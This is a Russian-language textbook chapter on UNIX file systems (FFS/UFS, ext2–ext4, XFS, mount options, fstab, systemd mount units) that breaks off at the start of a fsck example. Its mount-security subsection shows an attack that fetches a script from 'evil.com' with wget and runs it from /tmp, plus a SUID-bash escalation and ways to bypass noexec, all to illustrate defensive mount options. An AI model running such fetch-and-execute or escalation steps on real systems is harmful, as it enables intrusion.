

# Глава 36. Классические файловые системы UNIX

## Введение

Файловая система — это не просто способ хранения данных на диске. Это **мост** между хаосом нулей и единиц на физическом носителе и удобной иерархией файлов и папок, с которой работает пользователь. За более чем полвека развития UNIX файловые системы прошли путь от примитивных структур с жёстким ограничением в 14 символов на имя файла до сложнейших механизмов с copy-on-write, контрольными суммами и мгновенными снапшотами.

UNIX-подобные системы используют **иерархическую файловую систему** с единым корнем `/`. В этой главе мы проследим эволюцию классических ФС — от оригинальной PDP-7 FS до современных ext4 и XFS — и разберём концепции, которые унаследовали все современные решения. Понимание этих основ необходимо, чтобы осознанно выбирать ФС, настраивать монтирование, диагностировать проблемы и оценивать компромиссы, на которые идёт каждая файловая система.

---

## 36.1 Историческая эволюция

История файловых систем UNIX — это история решения одних и тех же фундаментальных проблем: как эффективно использовать дисковое пространство, как защитить данные от сбоев, как масштабироваться на терабайты и петабайты. Каждое новое поколение ФС появлялось в ответ на конкретные ограничения предыдущего — и часто заимствовало удачные идеи у «соседей».

### Хронология

```
Год    Файловая система            Ключевое нововведение
────── ─────────────────────────── ─────────────────────────────────────────
1969   PDP-7 FS                    Оригинальная UNIX FS (Ken Thompson)
1974   V6 FS                       Первая документированная UNIX FS
1978   V7 FS                       512-байтные блоки, 14 символов на имя
1983   BSD FFS                     Группы цилиндров, блоки 4-8 KB (McKusick)
1984   S5FS (System V)             Файловая система AT&T System V
1991   ext                         Первая ФС для Linux (Rémy Card)
1993   ext2                        Длинные имена, большие ФС, нет журнала
1993   XFS                         B+-деревья, allocation groups (SGI/IRIX)
1996   ReiserFS v3                 B*-деревья, эффективные мелкие файлы
1999   JFS                         Журналирование, B+-деревья (IBM, из AIX)
2001   ext3                        ext2 + журнал — бесшовная миграция
2002   UFS2                        64-bit, расширенные атрибуты (FreeBSD)
2005   ZFS                         Copy-on-write, пулы, checksums (Sun)
2007   HAMMER                      CoW, историческая запись (DragonFlyBSD)
2008   ext4                        Extents, отложенная аллокация
2009   Btrfs                       CoW, снапшоты, встроенный RAID (Oracle)
2012   F2FS                        Оптимизирована для Flash/SSD (Samsung)
2017   APFS                        CoW, шифрование, клоны (Apple)
2018   HAMMER2                     Кластерная ФС (DragonFlyBSD)
2023   bcachefs                    CoW, шифрование, erasure coding (Linux 6.7)
```

### Семейства файловых систем

Файловые системы не развивались изолированно — они образуют **семейства**, объединённые общей кодовой базой или архитектурными идеями:

**BSD-семейство** (FFS → UFS1 → UFS2 → FFS2). Эволюция оригинальной идеи McKusick'а о группах цилиндров. Каждая BSD-система имеет свой вариант: FreeBSD использует UFS2, OpenBSD — FFS2 с softdep и WAPBL (Write Ahead Physical Block Logging).

**Linux ext-семейство** (ext → ext2 → ext3 → ext4). Постепенная эволюция с сохранением обратной совместимости. Ключевая особенность семейства: каждая следующая версия может монтировать предыдущую, и переход между версиями не требует переформатирования.

**Copy-on-Write (CoW) семейство** (ZFS, Btrfs, HAMMER/HAMMER2, bcachefs). Общая идея: данные никогда не перезаписываются на месте — новая версия записывается в новое место, а затем атомарно обновляется указатель. Это даёт бесплатные снапшоты, самовосстановление через контрольные суммы и защиту от частичной записи при сбое питания.

**Enterprise-семейство** (XFS, JFS). Файловые системы, изначально разработанные для мощных рабочих станций и серверов (SGI IRIX и IBM AIX соответственно), затем портированные в Linux. Отличаются высокой производительностью на больших файлах и параллельном I/O.

### Файловые системы по умолчанию в ОС

Выбор ФС по умолчанию — компромисс между надёжностью, производительностью и зрелостью. Дистрибутивы меняют свой выбор по мере того, как новые ФС доказывают свою стабильность:

| Операционная система | ФС по умолчанию | С какого года | Примечание |
|---------------------|-----------------|---------------|------------|
| Ubuntu, Debian, Arch Linux | ext4 | ~2010 | Проверенный универсальный выбор |
| Fedora 33+ | Btrfs | 2020 | Снапшоты, сжатие из коробки |
| RHEL / CentOS / Rocky 7+ | XFS | 2014 | Производительность на серверах |
| SUSE Linux Enterprise | Btrfs | 2015 | Snapper для отката обновлений |
| FreeBSD 13+ | ZFS (UFS2 опция) | 2021 | ZFS стал root FS по умолчанию |
| OpenBSD | FFS2 | — | Простота и безопасность |
| NetBSD | FFS + WAPBL | — | WAPBL — журнал для FFS |
| macOS 10.13+ | APFS | 2017 | Заменила HFS+ |
| Solaris / illumos | ZFS | 2005 | ZFS была рождена здесь |
| DragonFlyBSD | HAMMER2 | 2018 | Авторская ФС Matt Dillon'а |
| Android | ext4 / F2FS | — | F2FS на новых устройствах |

---

## 36.2 Berkeley Fast File System (FFS/UFS)

К началу 1980-х оригинальная файловая система UNIX (V7 FS) стала узким местом. Она использовала блоки по 512 байт, размещала данные без учёта физической геометрии диска, и в результате утилизировала лишь **2-5% пропускной способности** диска. Файлы фрагментировались, метаданные и данные оказывались на разных концах диска, и головка чтения-записи постоянно «прыгала» между ними.

В 1983 году **Marshall Kirk McKusick** в Беркли разработал **Fast File System (FFS)** для BSD 4.2 — радикальную переработку, которая подняла производительность до **50% от пропускной способности диска**. Это была одна из самых значимых инноваций в истории UNIX.

!!! note "FFS и UFS — в чём разница?"
    Часто эти термины используют как синонимы, но строго говоря:
    
    - **FFS** (Fast File System) — это набор **алгоритмов и структур данных** (группы цилиндров, фрагменты, ротационная оптимизация), предложенных McKusick'ом
    - **UFS** (Unix File System) — это **файловая система**, которая реализует эти идеи. UFS1 — оригинальная реализация FFS. UFS2 (FreeBSD 5, 2002) — обновление с 64-битными указателями, расширенными атрибутами и soft updates
    
    Аналогия: FFS — это «архитектурный проект», UFS — «построенное здание».

### Ключевые инновации

FFS решила проблемы V7 FS четырьмя ключевыми нововведениями:

1. **Группы цилиндров**: диск делится на группы, каждая со своей копией метаданных. Данные файла размещаются в той же группе, что и его inode — головка диска не «летает» через весь диск
2. **Большие блоки** (4-8 KB вместо 512 байт): один блок = один дисковый I/O для большего объёма данных. Это сразу увеличило пропускную способность в 8-16 раз
3. **Фрагменты**: большие блоки расточительны для маленьких файлов (файл в 100 байт занимает 4 KB). Фрагменты позволяют нескольким мелким файлам делить один блок
4. **Ротационная оптимизация**: FFS учитывала скорость вращения диска и расставляла последовательные блоки файла так, чтобы следующий блок оказывался под головкой именно тогда, когда диск провернётся после чтения предыдущего

### Политика размещения: большие файлы

Группы цилиндров отлично работают для обычных файлов, но создают проблему для больших. Если большой файл заполнит всю группу, соседние «родственные» файлы (из той же директории) не смогут поместиться рядом, и локальность потеряется.

FFS решала это **разбросом больших файлов по разным группам**: первые 12 прямых блоков размещались в одной группе с inode, а каждый следующий косвенный блок (и данные, на которые он указывает) — в другой группе. При блоке 4 KB и 32-битной адресации это означает куски по ~4 MB.

```
Без large-file exception:      С large-file exception:
(10 блоков, 10 групп)        (10 блоков, 10 групп)

G0 [0 1 2 3 4 5 6 7 8 9]     G0 [0 1]
G1 [                    ]     G1 [               ]
G2 [                    ]     G2 [2 3            ]
...                           G3 [               ]
                              G4 [4 5            ]
                              ...      
                              G8 [8 9            ]

Файл забрал всю G0 —          Файл разбросан —
соседним файлам нет       в каждой группе есть
места рядом                место для других файлов
```

Но разброс означает seek между кусками. FFS компенсировала это **амортизацией**: куски достаточно велики, чтобы время передачи данных значительно превышало время seek. Например, при seek 10 мс и скорости 40 MB/s достаточно куска в ~400 KB, чтобы половину времени тратить на передачу, а не на позиционирование. Куски 2–4 MB дают 90%+ пропускной способности.

!!! info "Наследие FFS"
    Этот принцип амортизации живёт в современных ФС. Extents в ext4 и XFS — это развитие той же идеи: хранить данные непрерывными кусками, чтобы время передачи перевешивало время позиционирования.

### Структура UFS

```
┌────────────────────────────────────────┐
│  Boot Block (16 KB)                    │
├────────────────────────────────────────┤
│  Superblock                            │
├────────────────────────────────────────┤
│  Cylinder Group 0                      │
│  ├── Backup Superblock                 │
│  ├── Cylinder Group Descriptor         │
│  ├── Inode Bitmap                      │
│  ├── Block Bitmap                      │
│  ├── Inode Table                       │
│  └── Data Blocks                       │
├────────────────────────────────────────┤
│  Cylinder Group 1                      │
├────────────────────────────────────────┤
│  ...                                   │
└────────────────────────────────────────┘
```

### Работа с UFS (FreeBSD)

```bash
# Создание UFS2
newfs /dev/da0p1

# Монтирование
mount -t ufs /dev/da0p1 /mnt

# Проверка
fsck_ufs /dev/da0p1

# Включение soft updates
tunefs -n enable /dev/da0p1
```

---

## 36.3 ext2/ext3/ext4 (Linux)

Семейство ext — это **история постепенной эволюции** вместо революции. Каждое поколение добавляло критически важную возможность, сохраняя совместимость с предыдущим. Это редкий пример в мире ФС: пользователь мог обновить ext2 до ext3, а затем до ext4 **без переформатирования и без потери данных**.

Первая ФС для Linux — **ext** (1991, Rémy Card) — была написана для преодоления ограничений MINIX FS (максимум 64 MB). Она быстро уступила место ext2, которая стала стандартной ФС Linux на целое десятилетие.

### ext2 — Extended Filesystem 2

```
Год создания: 1993 (автор: Rémy Card)
Максимальный размер файла: 2 TB
Максимальный размер ФС: 32 TB
Размер блока: 1-4 KB
```

ext2 заимствовала идею **группы блоков** из BSD FFS (аналог группы цилиндров) и привнесла длинные имена файлов (до 255 байт), настраиваемый размер блока и резервирование места для суперпользователя (по умолчанию 5% — чтобы root мог починить систему даже при переполнении диска).

Основной недостаток ext2 — **отсутствие журнала**. При аварийном отключении питания приходилось запускать `fsck`, который проверял **каждый блок** файловой системы. На больших дисках это могло занимать десятки минут или даже часы.

**Структура ext2:**

```
┌──────────────────────────────────────┐
│  Boot Block (1 KB)                   │
├──────────────────────────────────────┤
│  Block Group 0                       │
│  ├── Superblock                      │
│  ├── Group Descriptors               │
│  ├── Block Bitmap (1 блок)           │
│  ├── Inode Bitmap (1 блок)           │
│  ├── Inode Table                     │
│  └── Data Blocks                     │
├──────────────────────────────────────┤
│  Block Group 1                       │
├──────────────────────────────────────┤
│  ...                                 │
└──────────────────────────────────────┘
```

### ext3 — добавление журнала

ext3 (2001, Stephen Tweedie) решила главную боль ext2 — длительное восстановление после сбоя. Вместо проверки всего диска достаточно «проиграть» журнал — лог недавних операций. Восстановление занимает **секунды** вместо минут. Но чтобы понять **зачем** нужен журнал, разберём проблему на конкретном примере.

#### Проблема crash consistency: почему без журнала всё ломается

Представьте: программа дописывает блок данных в существующий файл. Для этого ФС должна обновить **три структуры** на диске:

1. **Inode** файла (новый размер, новый указатель на блок)
2. **Data bitmap** (отметить новый блок как занятый)
3. **Data block** (сами данные)

Диск может выполнить только **одну запись** за раз. Если питание пропадёт после 1 или 2 записей, но до третьей — получаем **6 сценариев сбоя**:

```
Записано до сбоя         Последствия
─────────────────────────── ────────────────────────────────────────────
Только data block           ✅ OK: как будто записи не было
Только inode               ❌ Inode указывает на мусор + bitmap не совпадает
Только bitmap              ❌ Утечка места: блок занят, но никто на него не ссылается
Inode + bitmap              ❌ Метаданные ок, но данные — мусор (старые байты)
Inode + data block          ❌ Bitmap говорит "свободен", inode — "занят"
Bitmap + data block         ❌ Блок занят, но ни один файл на него не ссылается
```

Из 6 сценариев только **один** безвредный (записан только data block). Остальные 5 приводят к повреждению ФС: несогласованность метаданных, утечка места, мусор в данных. Именно эту проблему решает **журналирование**.

#### Как работает журнал: протокол write-ahead logging

Идея позаимствована из баз данных: **прежде чем изменить структуры на месте, запиши намерение в отдельную область диска** (журнал). В ext3/ext4 протокол выглядит так:

```
Шаг 1: Запись транзакции в журнал
┌────────────────────────────────────────────────────────────┐
│  TxBegin | Inode₂ | Bitmap₂ | DataBlock | TxEnd     │
└────────────────────────────────────────────────────────────┘
                      Журнал (отдельная область диска)

Шаг 2: Checkpoint — запись в итоговое место
   Inode₂    → запись в inode table
   Bitmap₂   → запись в data bitmap
   DataBlock → запись в область данных

Шаг 3: Освобождение места в журнале
   Транзакция отмечается как завершённая
```

Если сбой произошёл **на шаге 1** — транзакция незавершена (нет TxEnd), игнорируем её. Если **на шаге 2** — транзакция завершена в журнале, просто проигрываем её повторно. В любом случае ФС остаётся консистентной.

!!! warning "Проблема write barriers"
    Одна тонкость: диски имеют внутренний **кэш записи** и могут переупорядочивать операции. Если TxEnd запишется раньше данных транзакции, при сбое мы «проиграем» мусор. Поэтому ext3/ext4 используют **write barriers** — команды диску «сначала запиши всё предыдущее, потом это». Опция монтирования `barrier` (ext4) именно для этого.

!!! tip "ext2 превращается в ext3 одной командой"
    ext2 и ext3 используют **идентичный формат данных на диске**. Единственное отличие — наличие файла журнала. Чтобы превратить ext2 в ext3, достаточно:
    
    ```bash
    # Добавить журнал к существующей ext2 (ФС должна быть размонтирована)
    tune2fs -j /dev/sda1
    
    # Или при монтировании — просто указать тип ext3
    mount -t ext3 /dev/sda1 /mnt
    ```
    
    Обратно тоже работает: ext3 можно смонтировать как ext2 (журнал будет проигнорирован). Это гениальное проектное решение сделало миграцию миллионов серверов безболезненной — ни переформатирования, ни копирования данных.

ext3 поддерживает **три режима журналирования**, каждый — свой компромисс между надёжностью и скоростью:

```bash
# journal (полный) — в журнал пишутся и метаданные, и данные
# Самый надёжный, но самый медленный (данные пишутся дважды)
tune2fs -o journal_data /dev/sda1

# ordered (по умолчанию) — данные записываются ДО метаданных
# Компромисс: данные не дублируются, но гарантируется их целостность
tune2fs -o journal_data_ordered /dev/sda1

# writeback (быстрый) — в журнал пишутся только метаданные
# Самый быстрый, но после сбоя файл может содержать мусор (старые данные)
tune2fs -o journal_data_writeback /dev/sda1
```

### ext4 — современный стандарт

ext4 (2008, Theodore Ts'o и команда) — это не просто «ext3 с большими лимитами», а глубокая переработка внутренних механизмов при сохранении обратной совместимости. Вот ключевые технологии, которые сделали скачок возможным:

**Extents вместо косвенной адресации.** В ext3 каждый блок файла адресовался индивидуально через три уровня косвенных блоков — файл в 1 GB требовал ~262 000 указателей. В ext4 **extent** описывает непрерывный диапазон: «блоки 1000–5000 принадлежат этому файлу». Один extent покрывает до 128 MB (при блоке 4 KB), так что тот же 1 GB файл может быть описан всего 8 extent'ами.

**Multiblock allocation (mballoc).** ext3 выделяла по одному блоку за вызов, вынуждая аллокатор принимать решения «близоруко». ext4 выделяет много блоков одновременно, что уменьшает фрагментацию и накладные расходы.

**Delayed allocation.** ext4 не выделяет дисковые блоки, пока данные не сбрасываются из памяти на диск. К этому моменту аллокатор видит **полную картину**: сколько данных нужно записать, где есть свободное место. Результат — меньше фрагментации и более эффективное расположение данных.

**Flex block groups.** Объединяет несколько групп блоков, концентрируя метаданные в начале группы. Это уменьшает seek-операции и освобождает большие непрерывные области для данных.

**Остальные улучшения:** контрольные суммы журнала (защита от повреждения самого журнала), `fallocate` (предвыделение места без записи нулей — критично для баз данных), наносекундные timestamps и онлайн-дефрагментация.

**Сводная таблица улучшений:**

| Возможность | ext3 | ext4 |
|-------------|------|------|
| Максимальный файл | 2 TB | 16 TB |
| Максимальная ФС | 32 TB | 1 EB |
| Подкаталогов | 32000 | 64000 |
| Extents | ❌ | ✅ |
| Multiblock allocation | ❌ | ✅ |
| Delayed allocation | ❌ | ✅ |
| Наносекунды в timestamps | ❌ | ✅ |
| Контрольные суммы журнала | ❌ | ✅ |
| fallocate (preallocation) | ❌ | ✅ |

```bash
# Создание ext4
mkfs.ext4 /dev/sdb1

# С параметрами
mkfs.ext4 -b 4096 -L "DATA" -O ^has_journal /dev/sdb1

# Просмотр информации
dumpe2fs /dev/sdb1 | less

# Изменение параметров
tune2fs -L "NEW_LABEL" /dev/sdb1
tune2fs -c 30 -i 2w /dev/sdb1  # проверка каждые 30 монтирований или 2 недели
```

---

## 36.4 XFS

**XFS** — это файловая система с по-настоящему «серверной» родословной. Она была создана в SGI (Silicon Graphics) в 1993 году для операционной системы IRIX, работавшей на рабочих станциях для 3D-графики и видеопроизводства, где нужно было быстро записывать и читать файлы огромных размеров. В 2001 году она была портирована в Linux, а с 2014 года стала **ФС по умолчанию в RHEL/CentOS 7+** — самой популярной серверной платформе.

Главная архитектурная идея XFS — **Allocation Groups** (группы аллокации). Диск делится на независимые регионы, каждый со своими B+-деревьями для метаданных. Это позволяет нескольким потокам параллельно выделять место и создавать файлы без конфликтов блокировок — именно поэтому XFS отлично масштабируется на многоядерных серверах.

### Особенности XFS

- **Журналирование метаданных** — быстрое восстановление после сбоя
- **Allocation Groups** — параллелизм I/O на многоядерных системах
- **Extents** — эффективная адресация больших файлов (как в ext4, но XFS использовала их с самого начала)
- **Delayed allocation** — аналогично ext4, но XFS реализовала это раньше
- **Online resize** (только увеличение) — можно расширить ФС без размонтирования
- **Online defragmentation** — дефрагментация на живой системе

!!! warning "Главное ограничение XFS"
    XFS **нельзя уменьшить**. Если вы создали XFS на 1 TB и хотите уменьшить до 500 GB — придётся создать новую ФС и перекопировать данные. Это следствие архитектуры Allocation Groups — удалить группу с конца с перераспределением данных нетривиально сложно.

```bash
# Создание XFS
mkfs.xfs /dev/sdb1

# С параметрами
mkfs.xfs -f -L "XFSDATA" -d agcount=4 /dev/sdb1

# Информация
xfs_info /mount/point

# Расширение (online)
xfs_growfs /mount/point

# Дефрагментация
xfs_fsr /mount/point

# Проверка (только unmounted)
xfs_repair /dev/sdb1

# Автоматическое восстановление (Linux 7.0+)
xfs_healer /dev/sdb1    # Online самовосстановление XFS
```

!!! info "Linux 7.0: xfs_healer"
    В Linux 7.0 появилась утилита **xfs_healer** — фоновый демон для автоматического обнаружения и восстановления повреждений XFS в online-режиме. Работает проактивно, без размонтирования ФС:
    
    **Возможности:**
    
    - Сканирует метаданные в реальном времени через `XFS_IOC_HEALTH_MONITOR` ioctl
    - Исправляет мелкие повреждения автоматически
    - Уведомляет о критичных проблемах (sick/corrupt metadata, I/O errors)
    - Интеграция с systemd для автоматического запуска
    - User-space daemon принимает решения о восстановлении (может убить контейнер, запустить scrub и т.д.)
    
    **Требования (важно!):**
    
    - ⚠️ **Kernel 6.12+** обязателен (может не быть включён в дистрибутивах)
    - ⚠️ **xfsprogs 6.18+** для полной функциональности
    - ⚠️ Форматирование с **reverse mapping** и **parent pointers**:
      ```bash
      # Для максимальных возможностей восстановления
      mkfs.xfs -m rmapbt=1 -n parent=1 /dev/sdb1
      # В xfsprogs 6.18+ это по умолчанию
      ```
    - ⚠️ **EXPERIMENTAL** — использовать только на тестовых системах!
    
    **Настройка автовосстановления:**
    
    ```bash
    # 1. Включить systemd service для автозапуска
    sudo systemctl enable --now xfs_healer_start
    
    # 2. Установить свойство autofsck=repair на ФС
    sudo xfs_property /dev/sdb1 set autofsck=repair
    # Или при форматировании:
    mkfs.xfs -m autofsck=1 /dev/sdb1
    
    # 3. Проверить статус
    sudo xfs_healer_status /dev/sdb1
    ```
    
    **Ручной запуск:**
    
    ```bash
    # Запуск демона вручную
    sudo xfs_healer -v /dev/sdb1
    ```
    
    **События мониторинга:**
    
    - `unmount` — ФС размонтирована, больше событий не будет
    - `sick metadata` — повреждения обнаружены во время работы
    - `corrupt metadata` — обнаружено fsck
    - `media/IO errors` — проблемы с носителем

### Сравнение ext4 vs XFS

Итак, в Linux есть две зрелых основных ФС. Как выбрать? Основное правило: если на диске много **мелких файлов** (почтовый сервер, домашний каталог с конфигами) — ext4. Если важны **большие файлы** и **параллельный I/O** (медиа-сервер, БД, хранилище бэкапов) — XFS.

| Критерий | ext4 | XFS |
|----------|------|-----|
| Мелкие файлы | Лучше | Хуже |
| Большие файлы | Хорошо | Лучше |
| Параллельный I/O | Хорошо | Лучше |
| Уменьшение размера | ✅ | ❌ |
| Recovery время | Дольше | Быстрее |

---

## 36.5 Монтирование и fstab

В UNIX недостаточно создать файловую систему на диске — нужно ещё **присоединить** её к единому дереву каталогов. Этот процесс называется **монтированием** (mounting). Команда `mount` связывает блочное устройство (например, `/dev/sdb1`) с точкой монтирования (каталогом, например, `/mnt`). После этого все файлы на устройстве становятся доступны через эту точку.

Опции монтирования — мощный инструмент: через них можно управлять производительностью (`noatime`), безопасностью (`noexec`, `nosuid`) и поведением конкретной ФС. В этом разделе мы разберём как ручное монтирование, так и автоматическое через `/etc/fstab` и systemd.

### Команда mount

```bash
# Простое монтирование
sudo mount /dev/sdb1 /mnt

# С опциями
sudo mount -t ext4 -o noatime,nodiratime /dev/sdb1 /mnt

# Только для чтения
sudo mount -o ro /dev/sdb1 /mnt

# Перемонтирование
sudo mount -o remount,rw /mnt
```

### /etc/fstab

```bash
# <устройство>  <точка>  <тип>  <опции>  <dump>  <pass>

UUID=550e8400-e29b-41d4-a716-446655440000  /        ext4  defaults              0  1
UUID=550e8400-e29b-41d4-a716-446655440001  /home    ext4  defaults,noatime      0  2
UUID=550e8400-e29b-41d4-a716-446655440002  /data    xfs   defaults,nofail       0  2
LABEL=SWAP                                  none     swap  sw                    0  0
```

### Общие опции монтирования

Опции монтирования делятся на **общие** (работают для любой ФС) и **специфичные** для конкретной файловой системы.

**Базовые опции:**

| Опция | Значение |
|-------|----------|
| `defaults` | rw,suid,dev,exec,auto,nouser,async |
| `ro` | Только чтение (read-only) |
| `rw` | Чтение и запись |
| `sync` | Синхронная запись (данные сразу на диск) |
| `async` | Асинхронная запись (по умолчанию, быстрее) |
| `auto` | Автомонтирование при `mount -a` |
| `noauto` | Не монтировать автоматически |
| `nofail` | Не останавливать загрузку при ошибке монтирования |

**Опции производительности:**

| Опция | Значение |
|-------|----------|
| `noatime` | Не обновлять время доступа (atime) |
| `nodiratime` | Не обновлять atime для каталогов |
| `relatime` | Обновлять atime только если atime < mtime (компромисс) |
| `strictatime` | Всегда обновлять atime (по умолчанию, медленнее) |
| `lazytime` | Обновлять atime в памяти, записывать на диск лениво |

**Опции безопасности:**

| Опция | Значение | Угроза, которую предотвращает |
|-------|----------|-------------------------------|
| `noexec` | Запретить выполнение файлов | Запуск вредоносных бинарников |
| `nosuid` | Игнорировать SUID/SGID биты | Эскалация привилегий через SUID |
| `nodev` | Игнорировать device-файлы | Создание фейковых устройств |

### Безопасность через опции монтирования

Правильная настройка опций — важный элемент **defense in depth** (эшелонированной защиты). Даже если атакующий загрузил вредоносный файл, ограничения монтирования могут предотвратить его выполнение.

**Типичные рекомендации:**

```bash
# /tmp — временные файлы, часто цель для эксплойтов
/dev/sda3  /tmp     ext4  defaults,noexec,nosuid,nodev  0  2

# /var/tmp — аналогично
/dev/sda4  /var/tmp ext4  defaults,noexec,nosuid,nodev  0  2

# /home — пользовательские данные, SUID не нужен
/dev/sda5  /home    ext4  defaults,nosuid,nodev         0  2

# /var — логи и данные сервисов
/dev/sda6  /var     ext4  defaults,nosuid,nodev         0  2

# Съёмные носители — максимальные ограничения
/dev/sdb1  /media/usb  vfat  noexec,nosuid,nodev,noauto,user  0  0
```

**Почему это работает:**

```
Атака: загрузка скрипта в /tmp и его выполнение
┌──────────────────────────────────────────────────────┐
│  $ wget http://evil.com/malware.sh -O /tmp/mal.sh   │
│  $ chmod +x /tmp/mal.sh                              │
│  $ /tmp/mal.sh                                       │
│  bash: /tmp/mal.sh: Permission denied  ← noexec!    │
└──────────────────────────────────────────────────────┘

Атака: создание SUID-бинарника в /home
┌──────────────────────────────────────────────────────┐
│  $ cp /bin/bash /home/user/bash_suid                │
│  $ chmod u+s /home/user/bash_suid  # требует root   │
│  $ /home/user/bash_suid -p                          │
│  # SUID бит игнорируется из-за nosuid               │
└──────────────────────────────────────────────────────┘
```

!!! warning "Ограничения noexec"
    `noexec` не защищает от:
    
    - `bash /tmp/script.sh` — интерпретатор вне /tmp
    - `python /tmp/evil.py` — аналогично
    - `ld-linux.so /tmp/binary` — прямой вызов загрузчика
    
    Это дополнительный барьер, а не полная защита!

### Опции для конкретных файловых систем

Помимо общих опций, каждая ФС имеет свои специфичные настройки:

**ext4:**

```bash
# Опции ext4
mount -t ext4 -o journal_checksum,discard,barrier /dev/sda1 /mnt
```

| Опция | Значение |
|-------|----------|
| `journal_checksum` | Контрольные суммы журнала |
| `discard` | Поддержка TRIM для SSD |
| `barrier` / `nobarrier` | Барьеры записи (целостность vs скорость) |
| `data=journal` | Журналирование данных (медленно, надёжно) |
| `data=ordered` | Метаданные после данных (по умолчанию) |
| `data=writeback` | Только метаданные (быстро, рискованно) |

**XFS:**

```bash
mount -t xfs -o logbufs=8,allocsize=64k /dev/sda1 /mnt
```

| Опция | Значение |
|-------|----------|
| `logbufs=N` | Количество буферов журнала (2-8) |
| `allocsize=SIZE` | Размер предвыделения для streaming writes |
| `inode64` | 64-битные номера inode (для больших ФС) |
| `norecovery` | Монтирование без воспроизведения журнала (ro) |

**Btrfs:**

```bash
mount -t btrfs -o compress=zstd,subvol=@home,space_cache=v2 /dev/sda1 /mnt
```

| Опция | Значение |
|-------|----------|
| `compress=ALG` | Сжатие: zlib, lzo, zstd (рекомендуется) |
| `subvol=NAME` | Монтирование конкретного subvolume |
| `space_cache=v2` | Кэш свободного пространства (v2 быстрее) |
| `autodefrag` | Автоматическая дефрагментация |
| `ssd` | Оптимизации для SSD |

**Просмотр текущих опций:**

```bash
# Все смонтированные ФС
$ mount | column -t

# Подробно для конкретной точки
$ findmnt /home
TARGET SOURCE    FSTYPE OPTIONS
/home  /dev/sda5 ext4   rw,nosuid,nodev,relatime

# Опции в /proc
$ cat /proc/mounts | grep /home
```

### Монтирование через systemd

В современных Linux-системах с systemd можно управлять монтированием через **mount units** (`.mount`) вместо `/etc/fstab`. Это даёт больше контроля: зависимости, условия, автоматический перезапуск.

!!! info "fstab vs systemd"
    systemd автоматически генерирует `.mount` юниты из `/etc/fstab` при загрузке. Можно использовать оба подхода, но для сложных сценариев (зависимости, сетевые ФС, шифрование) явные юниты удобнее.

**Именование юнитов:**

Имя файла `.mount` должно соответствовать точке монтирования с заменой `/` на `-`:

| Точка монтирования | Имя юнита |
|--------------------|-----------|
| `/mnt/data` | `mnt-data.mount` |
| `/home` | `home.mount` |
| `/var/lib/docker` | `var-lib-docker.mount` |
| `/mnt/my-data` | `mnt-my\x2ddata.mount` |

!!! warning "Дефис в именах директорий"
    Поскольку `-` используется как разделитель компонентов пути, дефис **внутри** имени директории нужно экранировать как `\x2d` (hex-код символа).
    
    Используйте `systemd-escape` для автоматического преобразования:
    
    ```bash
    # Путь → имя юнита
    $ systemd-escape --path /mnt/my-data
    mnt-my\x2ddata
    
    # Добавить суффикс .mount
    $ systemd-escape --path --suffix=mount /mnt/my-data
    mnt-my\x2ddata.mount
    
    # Обратное преобразование
    $ systemd-escape --unescape --path mnt-my\\x2ddata
    /mnt/my-data
    ```

**Пример: /mnt/data.mount**

```ini
# /etc/systemd/system/mnt-data.mount
[Unit]
Description=Data Storage Mount
After=local-fs.target
Requires=local-fs.target

[Mount]
What=/dev/disk/by-uuid/550e8400-e29b-41d4-a716-446655440000
Where=/mnt/data
Type=ext4
Options=defaults,noatime,nosuid,nodev

[Install]
WantedBy=multi-user.target
```

**Управление:**

```bash
# Применить изменения
sudo systemctl daemon-reload

# Монтировать
sudo systemctl start mnt-data.mount

# Автомонтирование при загрузке
sudo systemctl enable mnt-data.mount

# Статус
sudo systemctl status mnt-data.mount

# Размонтировать
sudo systemctl stop mnt-data.mount
```

**Automount — ленивое монтирование:**

`.automount` юниты монтируют ФС только при первом обращении к точке монтирования. Полезно для съёмных носителей и сетевых ФС.

```ini
# /etc/systemd/system/mnt-backup.automount
[Unit]
Description=Automount Backup Drive

[Automount]
Where=/mnt/backup
TimeoutIdleSec=300  # Размонтировать после 5 минут неактивности

[Install]
WantedBy=multi-user.target
```

```ini
# /etc/systemd/system/mnt-backup.mount
[Unit]
Description=Backup Drive

[Mount]
What=/dev/disk/by-label/BACKUP
Where=/mnt/backup
Type=ext4
Options=defaults,noexec,nosuid,nodev
```

```bash
# Включить automount (не .mount!)
sudo systemctl enable --now mnt-backup.automount

# Первое обращение триггерит монтирование
$ ls /mnt/backup  # ← mount происходит здесь
```

**Зависимости и порядок:**

Главное преимущество systemd — явные зависимости:

```ini
[Unit]
Description=Application Data
# Ждать сеть (для NFS)
After=network-online.target
Wants=network-online.target

# Ждать расшифровку LUKS
After=systemd-cryptsetup@encrypted.service
Requires=systemd-cryptsetup@encrypted.service

# Монтировать до запуска сервиса
Before=myapp.service
```

**Сравнение fstab и systemd mount:**

| Аспект | /etc/fstab | .mount юнит |
|--------|------------|-------------|
| Простота | ✅ Одна строка | Отдельный файл |
| Зависимости | Ограничены (x-systemd.*) | Полный контроль |
| Условия | Нет | `ConditionPathExists=`, etc. |
| Автоперезапуск | Нет | Да |
| Логи | `dmesg` | `journalctl -u name.mount` |
| Сетевые ФС | `_netdev` | Явные зависимости |

**Конвертация fstab → systemd:**

```bash
# Сгенерировать юнит из fstab (для просмотра)
$ systemd-mount --no-block -p "What=/dev/sda1" -p "Where=/mnt/test" --discover

# Посмотреть автосгенерированные юниты
$ systemctl list-units --type=mount

# Просмотр конкретного
$ systemctl cat home.mount
```

!!! tip "Когда использовать systemd mount"
    - Сетевые ФС (NFS, CIFS) с зависимостью от сети
    - Шифрованные тома (LUKS) с зависимостью от cryptsetup
    - Монтирование, требующее запущенного сервиса
    - Автоматическое размонтирование по таймауту
    - Интеграция с другими systemd юнитами
    
    Для простых локальных ФС `/etc/fstab` проще и понятнее.

---

## 36.6 Проверка и восстановление

Даже самая надёжная файловая система может повредиться: аварийное отключение питания, сбой диска, ошибка в ядре. Утилита **fsck** (file system check) — это «скорая помощь» для ФС. Она проверяет целостность метаданных и исправляет обнаруженные проблемы.

Важный момент: для ФС с журналом (ext3/ext4, XFS) fsck обычно не нужен — журнал автоматически «проигрывается» при монтировании. Но если повреждения выходят за пределы журнала, или для ext2 (где журнала нет вовсе), fsck незаменим.

!!! danger "ФС должна быть размонтирована!"
    **Никогда** не запускайте `fsck` на смонтированной ФС с доступом на запись. Это может **уничтожить данные**, потому что fsck модифицирует структуры на диске, пока ядро считает их неизменными.

### fsck

fsck выполняет несколько проходов: проверка inode, структуры каталогов, подсчёт ссылок, поиск осиротевших блоков (выделенных, но не принадлежащих ни одному файлу). Найденные «потерянные» файлы помещаются в каталог `lost+found` в корне ФС.

```bash
